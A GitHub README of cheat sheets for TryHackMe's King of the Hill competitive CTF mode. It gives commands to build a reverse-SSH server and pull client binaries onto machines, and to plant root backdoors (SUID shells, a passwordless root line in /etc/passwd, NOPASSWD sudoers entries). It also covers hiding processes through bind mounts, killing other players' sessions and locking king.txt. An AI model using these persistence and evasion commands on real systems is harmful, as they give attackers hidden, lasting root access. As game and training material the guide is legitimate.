 # THM King of the Hill Guides

These are cheat sheets I put together during my stint playing TryHackMe's King of the Hill mode. It can be quite fun, though if the other players know the machine and you don't, then how well you do entirely depends on how much they let you do. Nevertheless I found *most* players were accommodating enough that I was able to fully enumerate every machine, and these kill sheets are derived from that alone (except for H1: Hard, which is er, really hard - needed a walkthrough for that one).

My recommendation to you if you are new? Try and enumerate yourself. Once root on a machine, use that access to run linpeas, check sudoers etc and find the other ways in. A lot of fun I had was just from find the nooks and crannies on each machine, rather than any competitive aspect.

## A Note on Reverse SSH

Most of my kill sheets were tailored to my hacking approach, which was to start a [Reverse SSH](https://github.com/NHAS/reverse_ssh) server on my machine via the following commands (update go, create ssh keys, setup server):

```
wget -q https://go.dev/dl/go1.18.linux-amd64.tar.gz && rm -rf /usr/local/go && tar -C /usr/local -xzf go1.18.linux-amd64.tar.gz && rm go1.18.linux-amd64.tar.gz
ssh-keygen -t ed25519 -P "" -f "/root/.ssh/id_ed25519" > /dev/null
git clone https://github.com/NHAS/reverse_ssh && cd reverse_ssh && git checkout unstable && RSSH_HOMESERVER=$(hostname -i):3232 make && cd bin/ && cp ~/.ssh/id_ed25519.pub authorized_keys && cp client* ~/ && ./server --external_address $(hostname -i):3232 :3232 &
```

(note the above is done as part of my [thm-setup.sh](../thm-setup.sh) script as well)

After setting up the server, I would set up a python webserver on port 1234 to made the client binaries available, and then pull and run these on various machines. So in a kill sheet, if you see a `LHOST:1234/client` set of instructions that is what it is doing.

What is the advantage of reverse_ssh? It gives an immediate fully stable shell on linux *AND* windows, communicates over its own channel so even if the SSH server on the machine is completely disabled it will still work, and doesn't rely on passwords, ssh keys that another user might delete etc. Very nice.

## General tips and tricks

- when you ssh into a machine (regular or via reverse_ssh), the argument `-T` will not create a /dev/pts/ file. This prevents you showing up in `who` or `pinky`, which can stop those assholes who like to kill shells or cat random data or nyan cat into your terminal
- any process can be hidden by mounting over it. e.g. if you have a bash process running, and you know its PID is 2385 for example, `mount -o bind /tmp /proc/2838` will hide it, meaning your process will not show when `ps aux` is run. note this can be easily seen by running `mount` as a super user.
- when root, if facing an adversarial opponent who is likely to close all major paths to root, create lots of ways of getting back:
  - creating more suid binaries, e.g. `cp /bin/sh /home/sh && chmod u+s /home/sh`
  - adding your public key to /root/.ssh/authorized_keys
  - changing the root password
  - running reverse_ssh binaries
  - adding new users to /etc/passwd, e.g. `echo 'user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash' >> /etc/passwd` will create basically a second root user, with password `pass123`
  - creating a user who can sudo to root: `useradd aquinas && (echo -e "thisisatest\nthisisatest" | passwd aquinas) && (echo "aquinas ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers)`
- you can wipe other sessions with something like this: `/bin/ls /dev/pts/* | /usr/bin/cut -c 6- | /usr/bin/xargs -I T pkill -9 -t T`. Note this only works against people who *have* a pts, e.g. didn't use `-T`. And I suggest only using it after someone has tried to kill your session. Don't be a dick.
- if someone is being really annoying, cat `/dev/urandom > /dev/pts/[id] &` is the nuclear option: the stream of random data will likely ruin their entire terminal. It'll keep running until they give up, at which point you will get a file read/write error or something.

## King Persistence

Aside from being root and kicking other users off like a wanker, the true troll just focuses on controlling king.txt. Let them be root, let everyone be root! They still can't become king if they can't figure out how to update the file. My approach for this is to escalate based on what I'm facing, e.g. the following tiers:

1. just put your name in king.txt
2. make it immutable: `/usr/bin/chattr +i king.txt` on linux and `attrib +r king.txt` on windows
3. delete chattr (its allowed). on windows you can't delete attrib even as system, but you could use `attrib +s king.txt` to also make it a system file to further harden it
4. create a bash loop to keep yourself as king. this works: `while true; do (echo Aquinas > /root/king.txt); sleep 0.1; done 2>/dev/null &`. Note, dont put this in a file and run it - I *will* find your file and put my name in it, plus the whole command will show up under PS. Running straight in your terminal will likely only show sleep 0.1. sleep could even be omitted, but it has the advantage that if they use pspy64 to try and figure out whats going on they will see a wall of sleep commands.
5. drop the 'nuclear option': this is a binary I call [kingmaker](tools/kingmaker.c), which combines chattr plus setting the file content plus stealth to make it very hard to find - only one person I've played where it has come to this has managed to find and kill the process, props to him (flint)

There is dickery beyond this thats possible, i.e. doing something violent with LD_PRELOAD, but I've never seen the point.

Defense tips:

- despite the sleep wall thing I mentioned, [pspy64](https://github.com/DominicBreuker/pspy) is a good tool to see whats happening, it will often find sneaky binaries that are being run etc
- chattr gets deleted all the time; some people then pull on a copy of it from busybox; I've seen obfuscation of this by naming it all sorts of things. Remember it will usually have the same *size*, something like `find / -size 36464c 2>/dev/null` will track it down.
- in the same vein, why not be extra sneaky and just create your own! I wrote [mf.c](tools/mf.c), which performs the same function as chattr and is trivial to compile and copy across. You can even use it in a loop to keep king mutable: `while true; do (/mf /root/king.txt 0); sleep 0.1; done &` (or immutable, if you wish, via subbing `16` for `0`). note, kingmaker does the same thing, embedding the ioctl system call inside itself so chattr is not required.

